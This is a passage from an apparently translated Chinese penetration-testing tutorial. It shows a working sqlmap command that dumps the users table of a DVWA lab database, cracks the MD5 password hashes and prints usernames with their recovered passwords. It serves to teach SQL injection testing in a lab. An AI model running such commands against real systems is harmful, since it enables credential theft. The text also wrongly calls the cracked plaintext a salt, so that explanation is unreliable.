 这样做，我们可以看到 DVWA 数据库中有两个表。这些表包括`guestbook`和`users`。用户表通常值得提取，因为它通常包含用户名和相关的密码哈希。为了从某个指定表中提取信息，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定提取哪个表的内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dump -D dvwa -T users 
                            ** {CUT} ** 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y 
[03:44:03] [INFO] using hash method 'md5_generic_passwd' 
what dictionary do you want to use?
[1] default dictionary file './txt/wordlist.zip' (press Enter) 
[2] custom dictionary file 
[3] file with list of dictionary files 
> 
[03:44:08] [INFO] using default dictionary 
do you want to use common password suffixes? (slow!) [y/N] N 
                                ** {CUT} ** 
Database: dvwa 
Table: users 
[5 entries] 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| user_id | user    | avatar                                                 | password                                    | last_name | first_name | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| 1       | admin   | http://192.168.223.132/dvwa/hackable/users/admin. jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 
| 2       | gordonb | http://192.168.223.132/dvwa/hackable/users/gordonb. jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 
| 3       | 1337    | http://192.168.223.132/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 
| 4       | pablo   | http://192.168.223.132/dvwa/hackable/users/pablo. jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 
| 5       | smithy  | http://192.168.223.132/dvwa/hackable/users/smithy. jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
                                ** {TRUNCATED} **
```

在识别表的内容中存在密码哈希之后，sqlmap 会提供选项，询问用户是否使用内置的密码破解器来对枚举密码哈希执行字典攻击。这可以使用内置单词列表，自定义单词列表，或者一系列单词列表来执行。在执行字典攻击之后，我们可以看到表的内容包含用户 ID，用户头像的位置，MD5 哈希，哈希的纯文本附加值（盐），以及用户姓名。

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP GET 参数上执行 SQL 注入非常繁琐，因为修改内容要经过请求 URL 。

## 7.15 使用 sqlmap 注入 POST 方法
